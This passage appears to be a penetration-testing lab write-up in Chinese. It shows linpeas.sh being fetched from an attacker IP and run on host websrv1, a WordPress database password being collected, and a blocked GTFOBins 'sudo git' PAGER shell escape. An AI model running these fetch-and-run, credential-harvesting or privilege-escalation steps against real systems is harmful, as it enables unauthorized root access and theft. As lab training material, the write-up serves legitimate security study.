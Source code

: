 ```
```
```
daniela@websrv1:~$ wget http://192.168.45.214/linpeas.sh
daniela@websrv1:~$ chmod +x ./linpeas.sh 
daniela@websrv1:~$ ./linpeas.sh
...
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                                                                                                           
Linux version 5.15.0-48-generic (buildd@lcy02-amd64-080) (gcc (Ubuntu 11.2.0-19ubuntu1) 11.2.0, GNU ld (GNU Binutils for Ubuntu) 2.38) #54-Ubuntu SMP Fri Aug 26 13:26:29 UTC 2022                           
Distributor ID: Ubuntu
Description:    Ubuntu 22.04.1 LTS
Release:        22.04
Codename:       jammy
...
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                             
Matching Defaults entries for daniela on websrv1:                                                                                                                                                            
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User daniela may run the following commands on websrv1:
    (ALL) NOPASSWD: /usr/bin/git
...
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-r--r-- 1 www-data www-data 2495 Sep 27 11:31 /srv/www/wordpress/wp-config.php                                                                                                                          
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'DanielKeyboard3311' );
define( 'DB_HOST', 'localhost' );
...
╔══════════╣ Analyzing Github Files (limit 70)
                                                                                                                                
drwxr----- 8 root root 4096 Sep 27 14:26 /srv/www/wordpress/.git
```
> 系統: Ubuntu 22.04.1 LTS\
> `daniela` 可以不用密碼使用 `sudo git`\
> WordPress 資料庫: `wordpress`:`DanielKeyboard3311`\
> 能夠讀取 `.git`: 查看過去的變更，甚至找到敏感資訊

先將憑證存入 `creds.txt`
```
┌──(chw㉿CHW)-[~/beyond]
└─$ echo "DB_USER: wordpress, DB_PASSWORD: DanielKeyboard3311" >> creds.txt
```
#### 2. 濫用 sudo git 進行提權
查看 [GTFOBins](https://gtfobins.github.io/gtfobins/git/) 提權方法：
```
daniela@websrv1:~$ sudo PAGER='sh -c "exec sh 0<&1"' /usr/bin/git -p help
sudo: sorry, you are not allowed to set the following environment variables: PAGER
```
> 這個方法被系統封鎖
